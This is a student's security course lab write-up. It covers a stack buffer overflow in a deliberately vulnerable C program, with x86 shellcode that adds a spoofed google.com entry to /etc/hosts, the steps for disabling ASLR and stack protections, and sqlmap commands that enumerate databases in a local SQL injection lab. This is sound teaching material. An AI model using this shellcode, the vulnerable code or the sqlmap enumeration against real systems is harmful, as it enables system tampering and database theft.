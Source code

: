 # Lab 1, 22110074, Nguyen Le Phuong Thu, INSE_02FIE

## Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
 char buffer[16];
 strcpy(buffer,argv[1]);
 return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

### 1. Fire up docker-compose to run the docker conteiner `docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` and then change working directory to the folder have this file

![image](/run%20docker.png)

### 2. Compile with nasm and then link with ld to generate executable file

![image](/img/compile.png)

### 3. Dump to `test.o` to show information of this file

`objdump -d test.o`
![image](/img/objdump.png)

### 4. Get the hex string of shellcode

Run the script `for i in $(objdump -d test | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`
![image](/img/hex%20string.png)

### 5. Prepare for the lab environment

- Turn off OS's address space layout randomization `sudo sysctl -w kernel.randomize_va_space=0`
- Compile program with options to defeat stack protecting mechanism and code execution on stack `gcc lab1.c -o lab1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
![image](/img/prepare.png)

### 6. Stack frame 


![image](/img/stack.png)

> We have the byte of the buffer in this code is smaller than the byte of hex string of shellcode. So I use environment variables to exploit

### 7. Add shellcode to environment and get env address with C code

![image](/img/env.png)

### 8. Debug with gdb `gdb -q ./lab1.out`

![image](/img/gdb.png)

### 9. Find the address of env

`find /home/seed/seclabs/buffer-overflow/lab1`
![image](/img/find.png)

### 10. Run program in gdb with injecting argument

![image](/img/run.png)

## Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

### 1. Change working directory to folder of SQli

![image](/img/sqli.png)

### 2. Fire up the docker-compose to create the docker-container set for this lab

![image](/img/build%20sqli.png)



### 3. Install sqlmap
![image](/img/sqlmap.png)


**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
To retrieve information about all available databases, use
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" --dbs
'''

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
To list tables in a specific database
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" -D database_name --tables
'''

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
